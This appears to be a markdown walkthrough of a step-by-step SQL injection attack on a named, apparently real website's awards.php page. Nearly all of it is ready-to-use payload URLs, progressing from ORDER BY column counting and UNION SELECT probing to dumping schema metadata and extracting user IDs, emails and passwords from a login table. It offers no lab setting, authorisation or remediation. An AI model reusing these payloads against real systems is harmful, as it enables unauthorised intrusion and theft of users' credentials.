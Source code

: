 
---
 SQL injection is a technique where attackers insert malicious SQL queries into input fields, allowing them to execute arbitrary SQL commands on the database.

### 1. Basic Parameter Injection

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6
```
**Description:**
This is a standard URL with an `id` parameter set to 6. It is used as the starting point to test if the parameter is vulnerable to SQL injection.

### 2. Testing for Order By Clause Injection

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20orderby1
http://bdfoods.com.bd/awards.php?id=6%20order%20by%202
http://bdfoods.com.bd/awards.php?id=6%20order%20by%203
http://bdfoods.com.bd/awards.php?id=6%20order%20by%204
```
**Description:**
These URLs attempt to manipulate the `id` parameter by adding an `ORDER BY` clause followed by a number. This technique is used to determine the number of columns in the resulting dataset. If the specified column number exceeds the actual number of columns, an error will occur, indicating how many columns are present. For example:
- `order by 1`: Orders by the first column.
- `order by 2`: Orders by the second column, and so on.

### 3. Testing for UNION-Based SQL Injection

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,3,4
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,version(),4
```
**Description:**
These URLs use the `UNION` SQL operator to combine the results of two queries into a single result set. This method can be used to extract data from the database.
- `union select 1,2,3,4`: This query tests if the number of columns found earlier matches, and if the site is vulnerable to UNION-based SQL injection.
- `union select 1,2,version(),4`: Extracts the database version by replacing one of the column positions with the `version()` function.

### 4. Extracting Table Names

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,table_name,4%20from%20information_schema.tables
```
**Description:**
This URL retrieves the names of tables in the database by querying the `information_schema.tables` table, which stores metadata about the database schema. It uses `union select` to display the results in the webpage.

### 5. Extracting Column Names from a Specific Table

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,column_name,4%20from%20information_schema.columns%20where%20table_name=%27u_log%27
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,column_name,4%20from%20information_schema.columns
```
**Description:**
These URLs list the column names from a specific table (`u_log`) or from all tables in the database. The `information_schema.columns` table contains metadata about all columns in the database.
- `where table_name='u_log'`: Filters the results to show columns from the `u_log` table.

### 6. Extracting Specific Data from a Table

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,group_concat(user_id,0x0a,u_em,0x0a,log__pass),4%20from%20u_log
```
**Description:**
This URL uses the `group_concat()` function to concatenate multiple rows into a single string, separating each entry with a newline (`0x0a`). It attempts to extract data such as `user_id`, `u_em` (presumably user email), and `log__pass` (password) from the `u_log` table.

---


